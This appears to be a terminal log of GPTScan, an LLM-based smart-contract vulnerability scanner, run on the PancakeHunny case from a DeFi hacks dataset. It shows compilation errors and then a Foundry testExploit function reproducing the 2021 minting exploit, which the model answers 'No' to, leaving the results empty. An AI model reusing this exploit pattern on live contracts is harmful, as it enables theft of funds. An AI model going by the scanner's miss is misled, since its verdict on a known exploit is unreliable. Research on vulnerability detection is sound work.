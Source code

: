 

  .oooooo.    ooooooooo.   ooooooooooooo  .oooooo..o                                 
 d8P'  `Y8b   `888   `Y88. 8'   888   `8 d8P'    `Y8                                 
888            888   .d88'      888      Y88bo.       .ooooo.   .oooo.   ooo. .oo.   
888            888ooo88P'       888       `"Y8888o.  d88' `"Y8 `P  )88b  `888P"Y88b  
888     ooooo  888              888           `"Y88b 888        .oP"888   888   888  
`88.    .88'   888              888      oo     .d8P 888   .o8 d8(  888   888   888  
 `Y8bood8P'   o888o            o888o     8""88888P'  `Y8bod8P' `Y888""8o o888o o888o                                                        


                                                                   

[16:18:46] Loaded 10 rules                                                                                                                                                                                                                  tasks.py:119
[12/08/24 16:18:46] INFO     CryticCompile: 'npx hardhat clean' running (wd: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data/20210603 PancakeHunny - Incorrect calculation)                          subprocess.py:41
[12/08/24 16:18:47] INFO     CryticCompile: 'npx hardhat clean --global' running (wd: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data/20210603 PancakeHunny - Incorrect calculation)                 subprocess.py:41
[12/08/24 16:18:49] INFO     CryticCompile: 'npx hardhat compile --force' running (wd: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data/20210603 PancakeHunny - Incorrect calculation)                subprocess.py:41
[12/08/24 16:18:50] ERROR    CryticCompile: 'npx' returned non-zero exit code 1                                                                                                                                                         subprocess.py:60
                    ERROR    CryticCompile: Error HH411: The library forge-std, imported from contracts/PancakeHunny_exp.sol, is not installed. Try installing it using npm.                                                            subprocess.py:68
                             stderr: For more info go to https://hardhat.org/HH411 or run Hardhat with --show-stack-traces                                                                                                                              
[16:18:50] Traceback (most recent call last):                                                                                                                                                                                               tasks.py:126
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 90, in __init__                                                                                                          
               crytic_compile = CryticCompile(target, **kwargs)                                                                                                                                                                                         
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 131, in __init__                                                                                         
               self._compile(**kwargs)                                                                                                                                                                                                                  
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 553, in _compile                                                                                         
               self._platform.compile(self, **kwargs)                                                                                                                                                                                                   
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/hardhat.py", line 183, in compile                                                                                        
               hardhat_like_parsing(crytic_compile, self._target, build_directory, hardhat_working_dir)                                                                                                                                                 
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/hardhat.py", line 52, in hardhat_like_parsing                                                                            
               raise InvalidCompilation(txt)                                                                                                                                                                                                            
           crytic_compile.platform.exceptions.InvalidCompilation: Compilation failed. Can you run build command?                                                                                                                                        
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data/20210603 PancakeHunny - Incorrect calculation/artifacts/build-info is not a directory.                                                                    
                                                                                                                                                                                                                                                        
           During handling of the above exception, another exception occurred:                                                                                                                                                                          
                                                                                                                                                                                                                                                        
           Traceback (most recent call last):                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 124, in simple_cli                                                                                                                                              
               falcon_instance = compile_project(source_dir)                                                                                                                                                                                            
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 103, in compile_project                                                                                                                                         
               return falcon.Falcon(abs_path)                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 94, in __init__                                                                                                          
               raise FalconError(f"Invalid compilation: \n{str(e)}")                                                                                                                                                                                    
           falcon.exceptions.FalconError: Invalid compilation:                                                                                                                                                                                          
           Compilation failed. Can you run build command?                                                                                                                                                                                               
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data/20210603 PancakeHunny - Incorrect calculation/artifacts/build-info is not a directory.                                                                    
                                                                                                                                                                                                                                                        
           Compile failed.                                                                                                                                                                                                                  tasks.py:127
           Since the compilation is failed, some static analysis tool may not be enabled, which may cause lower precision and recall.                                                                                                       tasks.py:128
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│   function testExploit() public {                                                                                                                                                                                                                    │
│     wbnb.deposit{ value: 5.752 ether }();                                                                                                                                                                                                            │
│     wbnb.transfer(address(this), 5.752 ether);                                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│     //WBNB was swapped to CAKE at PancakeSwap                                                                                                                                                                                                        │
│     address[] memory path = new address[](2);                                                                                                                                                                                                        │
│     path[0] = address(wbnb);                                                                                                                                                                                                                         │
│     path[1] = address(cake);                                                                                                                                                                                                                         │
│     pancakeRouter.swapExactETHForTokens{value: 5.752 ether}(0,path,address(this),1622687689);                                                                                                                                                        │
│                                                                                                                                                                                                                                                      │
│     emit log_named_decimal_uint("Swap cake, Cake Balance", cake.balanceOf(address(this)),18);                                                                                                                                                        │
│                                                                                                                                                                                                                                                      │
│     //The attacker sent CAKE to our HUNNY Minter contract                                                                                                                                                                                            │
│     cake.transfer(hunnyMinter,59880957483227401400);                                                                                                                                                                                                 │
│                                                                                                                                                                                                                                                      │
│     //The attacker staked on CAKE-BNB Hive in PancakeHunny                                                                                                                                                                                           │
│     cheat.startPrank(0x515Fb5a7032CdD688B292086cf23280bEb9E31B6);                                                                                                                                                                                    │
│     //HUNNY Minter was “tricked” to mint more HUNNY tokens                                                                                                                                                                                           │
│     cakeVault.getReward();                                                                                                                                                                                                                           │
│     hunny.transfer(address(this),hunny.balanceOf(address(0x515Fb5a7032CdD688B292086cf23280bEb9E31B6)));                                                                                                                                              │
│     emit log_named_decimal_uint("Hunny Balance", hunny.balanceOf(address(this)),18);                                                                                                                                                                 │
│     cheat.stopPrank();                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│     //The attacker then sold the HUNNY tokens on PancakeSwap                                                                                                                                                                                         │
│     address[] memory path2 = new address[](2);                                                                                                                                                                                                       │
│     path2[0] = address(hunny);                                                                                                                                                                                                                       │
│     path2[1] = address(wbnb);                                                                                                                                                                                                                        │
│     pancakeRouter.swapExactTokensForETH(hunny.balanceOf(address(this)),0,path2,address(this),1622687089);                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│     emit log_named_decimal_uint("Swap WBNB, WBEB Balance", wbnb.balanceOf(address(this)),18);                                                                                                                                                        │
│   }                                                                                                                                                                                                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "No"}                                                                                                                                                                                                                                          │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
                      Scan Results                       
┏━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━┓
┃ Type ┃ Description ┃ Affected Files ┃ Analysis Report ┃
┡━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━┩
└──────┴─────────────┴────────────────┴─────────────────┘
                    Summary                     
┏━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Key                  ┃ Value                 ┃
┡━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━┩
│ Files                │ 1                     │
│ Contracts            │ 2                     │
│ Functions            │ 1                     │
│ Lines of Code        │ 82                    │
│ Used Time            │ 5.464893817901611     │
│ Estimated Cost (USD) │ 0.0007934999999999999 │
└──────────────────────┴───────────────────────┘
